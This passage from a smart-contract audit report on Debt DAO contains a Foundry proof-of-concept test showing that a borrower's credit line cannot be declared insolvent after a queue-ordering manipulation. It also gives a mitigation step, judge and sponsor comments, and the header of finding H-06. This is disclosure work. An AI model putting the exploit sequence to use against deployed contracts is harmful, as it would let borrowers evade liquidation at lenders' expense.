         vm.stopPrank();
        vm.prank(lender2);
        line.addCredit(dRate, fRate, amount, token, lender2);
        vm.stopPrank();
    }
    function test_attackUnliquidatable() public {
        bytes32 id_1;
        bytes32 id_2;
        _addCredit(address(supportedToken1), 1 ether);
        _addCreditLender2(address(supportedToken1), 1 ether);
        id_1 =  line.ids(0);
        id_2 =  line.ids(1);
        hoax(borrower);
        line.close(id_1);
        hoax(borrower);
        line.borrow(id_2, 1 ether);
        id_1 =  line.ids(0);
        id_2 = line.ids(1);
        console.log("id1 : ", uint256(id_1));
        console.log("id2 : ", uint256(id_2));
        vm.warp(ttl+1);
        assert(line.healthcheck() == LineLib.STATUS.LIQUIDATABLE);
        vm.expectRevert(ILineOfCredit.NotBorrowing.selector);
        bool isSolvent = line.declareInsolvent();
    }

### Recommended Mitigation Steps

When sorting new borrows into the ids queue, do not skip any elements.

**[dmvt (judge) marked as nullified](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421)**

**[Trust (warden) commented](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421#issuecomment-1341256600):**
 > Unclear why this issue is nullified, I have demonstrated a POC that shows line cannot be declared insolvent.

**[dmvt (judge) re-opened the issue and commented](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421#issuecomment-1343253554):**
 > Kicking back to the sponsor for another look. I'm inclined to bring this one back as valid unless the sponsor can show why it isn't.

**[kibagateaux (Debt DAO) confirmed](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421#issuecomment-1405074802)**



***

## [[H-06] Repaying a line of credit with a higher than necessary claimed revenue amount will force the borrower into liquidation](https://github.com/code-423n4/2022-11-debtdao-findings/issues/461)
*Submitted by [berndartmueller](https://github.com/code-423n4/2022-11-debtdao-findings/issues/461), also found by [Trust](https://github.com/code-423n4/2022-11-debtdao-findings/issues/418), [hansfriese](https://github.com/code-423n4/2022-11-debtdao-findings/issues/414), [adriro](https://github.com/code-423n4/2022-11-debtdao-findings/issues/336), [0xdeadbeef0x](https://github.com/code-423n4/2022-11-debtdao-findings/issues/210), [aphak5010](https://github.com/code-423n4/2022-11-debtdao-findings/issues/93), and [rvierdiiev](https://github.com/code-423n4/2022-11-debtdao-findings/issues/82)*
